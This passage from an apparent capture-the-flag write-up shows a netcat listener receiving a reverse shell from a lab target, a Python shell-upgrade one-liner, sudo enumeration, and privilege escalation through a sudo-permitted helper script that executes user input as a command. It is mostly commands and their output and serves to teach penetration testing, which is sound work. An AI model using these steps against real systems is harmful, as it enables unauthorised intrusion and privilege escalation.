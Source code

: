 ![9](https://github.com/Knign/Write-ups/assets/110326359/147c2bbe-95d2-4ffb-a50c-89bcb8aeea49)

- Let's check back on our listener.
```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.159.234] 39848
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- We can get a stable shell using the following command:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/secret$
```
- Let's chat files the `www-data` user can run using `sudo`.
```
www-data@ubuntu:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
- Let's take a better look at  what the `.helpline.sh` file does.
```
www-data@ubuntu:/home$ cat /home/apaar/.helpline.sh
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
- So it uses the `/bin/bash` interpreter for all of the user input. Which means we we should be able to get a shell.
```
www-data@ubuntu:/var/www/files/images$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: knign
knign
Hello user! I am knign,  Please enter your message: /bin/bash
/bin/bash
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
apaar@ubuntu:/var/www/files/images$ 
```